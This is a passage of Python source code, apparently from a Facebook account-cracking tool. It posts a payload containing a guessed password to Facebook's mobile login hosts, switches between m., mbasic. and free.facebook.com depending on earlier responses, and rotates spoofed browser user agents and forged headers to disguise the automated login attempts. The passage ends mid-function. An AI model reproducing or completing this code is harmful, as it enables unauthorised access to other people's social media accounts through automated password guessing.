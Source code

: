					"pass": str(san_dev),
					"bi_xrwh": str(payload["bi_xrwh"])
				}

			url_post_ = "https://m.facebook.com"
			host = "m.facebook.com"
			if "IqbalDev" in log_mbasic_dev:
				url_post_ = "https://mbasic.facebook.com"
				host = "mbasic.facebook.com"
			if "IqbalDev" in log_free_dev:
				url_post_ = "https://free.facebook.com"
				host = "free.facebook.com"

			# user_agent = "Mozilla/5.0 (Linux; Android 10; Redmi Note 8 Pro Build/QP1A.190711.020; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/83.0.4103.106 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/275.0.0.49.127;]"
			user_agent = random.choice(user_agent_dev)
			header_mobile = {
							 "Host": host,
							 "user-agent": user_agent,
							 "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
							 "accept-encoding": "gzip, deflate, br",
							 "accept-language": "id",
							 "cache-control": "max-age=0",
							 "content-length": str(random.randint(100, 200)),
							 "content-type": "application/x-www-form-urlencoded",
							 "origin": url_post_,
							 "referer": url,
							 "sec-ch-ua-mobile": "?0",
							 "sec-fetch-dest": "document",
							 "sec-fetch-mode": "navigate",
							 "sec-fetch-site": "same-origin"}
			if len(ua_hp) == 0:
				user_agent = open("ua_dev.txt", "r").read()
				header_mobile = {
								 "Host": host,
								 "user-agent": user_agent,
								 "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
								 "accept-encoding": "gzip, deflate, br",
								 "accept-language": "id",
								 "cache-control": "max-age=0",
								 "content-length": str(random.randint(100, 200)),
								 "content-type": "application/x-www-form-urlencoded",
								 "origin": url_post_,
								 "referer": url,
								 "sec-ch-ua-mobile": "?0",
								 "sec-fetch-dest": "document",
								 "sec-fetch-mode": "navigate",
								 "sec-fetch-site": "same-origin"}
